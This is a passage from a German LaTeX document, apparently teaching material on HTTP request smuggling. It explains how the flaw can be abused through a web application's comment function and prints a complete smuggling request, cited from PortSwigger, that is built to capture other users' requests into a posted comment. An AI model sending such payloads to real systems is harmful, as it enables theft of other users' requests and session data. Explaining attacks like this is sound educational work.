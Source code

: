 Wie kann dieses Verhalten bei einem Angriff ausgenutzt werden? Ein schönes Beispiel wäre eine Webapplikation, bei dem ein Benutzer Kommentare absetzen kann. Das Registrieren eines Benutzers ist auch für einen Angreifer möglich. Hier könnte z. B. folgender Request als Angriff verwendet werden\footnote{Quelle: \url{https://portswigger.net/web-security/request-smuggling/exploiting}}:

\begin{verbatim}
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
\end{verbatim}

